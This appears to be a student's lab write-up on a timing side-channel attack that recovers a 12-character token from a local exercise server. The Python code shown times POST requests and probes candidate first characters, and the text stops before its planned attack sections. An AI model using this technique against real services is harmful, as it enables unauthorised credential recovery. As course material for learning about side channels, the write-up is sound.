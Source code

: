 - [Exercise 1: [attack] Just In Time](#exercise-1-attack-just-in-time)
    - [Understanding the vulnerability](#understanding-the-vulnerability)
  - [Attacking the vulnerability](#attacking-the-vulnerability)
    - [The lazy way](#the-lazy-way)
      - [Timing issue](#timing-issue)
    - [The smart way](#the-smart-way)

# Exercise 1: [attack] Just In Time

### Understanding the vulnerability

The handout already gives solid hints at the possible vulnerability. It seems the password we send is checked character by character, and behaves differently on correct and incorrect characters:
> [...] a modified function to compare strings which express some very specific timing behavior for each valid character in the submitted token…

We don't know the actual characters space, so we'll try simple: number and lowercase ASCII. If it doesn't work, we'll expand.

After poking a bit at the server, we understand we must send a token of exactly 12 characters (any different numbers yields a error 500 with content `wrong length, 4 vs 12`).

To understand what the _timing behaviour_ is, we send different passwords and check the timing for each of them. Also, because sending a POST request and time the response will be so frequent, we create a routine for it:

```py
import requests
import time
def post(token):
    before = time.time()
    resp = requests.post("http://0.0.0.0:8080/hw6/ex1",
                         json = {"token": token})
    after = time.time()

    time_diff = after-before
    # print("Token {}, request took {:.3f}"
    #       .format(token, time_diff)) # useful for debugging
    # print("response is {}".format(resp.text))  # often useless
    return time_diff
```

Simply post the token to the specified URL, with the specified json body, measure the time, and return it. Print some information for debugging.

So now we use that routine to try several tokens:
```py
import string
import time

TOKEN_LENGTH = 12

charset = string.digits + string.ascii_lowercase

for start_char in charset:
    token = start_char + (TOKEN_LENGTH-1) * "_"
    tdiff = post(token)
    print("Token {}, request took {:.3f}"
          .format(token, tdiff))
```
